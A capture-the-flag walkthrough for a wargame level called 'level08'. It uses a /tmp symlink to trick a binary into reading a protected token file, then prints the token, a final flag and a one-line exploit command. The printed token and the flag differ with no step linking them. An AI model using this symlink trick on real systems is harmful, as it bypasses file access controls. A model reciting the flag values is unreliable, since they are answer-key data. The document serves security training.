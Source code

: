 
# Resources for level08

## Walkthrough to capture the flag:

### Step 1: List the files in the home directory

```bash
ls
```

> Output:
```
level08  token
```

> There is a binary (`level08`) and a `token` file that we cannot read directly. But the binary likely reads it on our behalf.

---

### Step 2: Create a symbolic link to the token file

```bash
ln -s /home/user/level08/token /tmp/flagg
```

> This creates a **symlink** named `/tmp/flagg` pointing to the real token file.

---

### Step 3: Run the binary with the symlink

```bash
./level08 /tmp/flagg
```

> Output:
```
Check flag.Here is your token : quif5eloekouj29ke0vouxean
```

---

## ✅ Final Flag

```
25749xKZ8L7DkSCwJkT9dyv6f
```

---

## ✅ Summary

- **Vulnerability**: Follows user-supplied file path — can be used to trick it into reading protected files via symlinks.
- **Exploit**: `ln -s /home/user/level08/token /tmp/flagg && ./level08 /tmp/flagg`
- **Flag**: `25749xKZ8L7DkSCwJkT9dyv6f`
